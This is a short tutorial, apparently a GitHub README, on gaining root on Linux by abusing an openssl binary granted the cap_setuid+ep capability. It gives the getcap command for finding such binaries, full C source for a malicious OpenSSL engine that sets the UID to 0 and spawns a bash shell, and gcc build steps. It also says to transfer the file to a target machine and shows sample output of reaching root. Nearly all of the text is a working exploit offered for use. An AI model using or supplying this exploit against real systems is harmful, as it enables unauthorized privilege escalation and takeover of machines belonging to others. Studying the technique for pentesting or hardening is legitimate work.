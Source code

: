 # All credit goes to chaudhary1337 check out the original at:
https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/

### *Modified by LV6LV*

Consider the binary /usr/bin/openssl has capabilities set as: /usr/bin/openssl = cap_setuid+ep 

Is there a way to become root from a normal user by using this? 
yes... yes there is a way.

## Search all the binaries' capibilities using: 
```
getcap -r / 2>/dev/null.
```
> getcap is the tool we will use
-r is the recursive flag
2>/dev/null directs the standard error stream to /dev/null


If you see /usr/bin/openssl = cap_setuid+ep, we are set for success.

## 1. Requirements (On Your System)
We will use #include <openssl/engine.h> header in our exploit engine file. On debian based systems, use: sudo apt-get install libssl-dev to install.
gcc

## 2. Getting The Exploit Ready
Create a file named openssl-exploit-engine.c with contents as such:
```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
Check reference number 2  below for more information.

## 3. Compiling
Run the following:
```
gcc -fPIC -o openssl-exploit-engine.o -c openssl-exploit-engine.c
```
It is safe to ignore warnings below:

> implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]

> implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]

Next run:
```
gcc -shared -o openssl-exploit-engine.so -lcrypto openssl-exploit-engine.o
```
Resultant is the openssl-exploit-engine.so file.

## 4. Transfer the file to target machine
Once you have the file, run the following, at the location of the so file.

openssl req -engine <full path to openssl-exploit-engine.so file>

Sample output if openssl-exploit-engine.so is located in the /tmp directory

user@server:~$ openssl req -engine /tmp/openssl-exploit-engine.so
root@server:~# whoami
root
  
Enjoy!

## Common Errors
> fatal error: openssl/engine.h: No such file or directory #include <openssl/engine.h>
  
Fix by installing libssl-dev (sudo apt-get install libssl-dev)

## 7. References

1. Read up more on capabilities. 
  https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities
2. OpenSSL building a useless engine
  https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/
3. How to use the library load feature OpenSSL
  https://gtfobins.github.io/gtfobins/openssl/#library-load
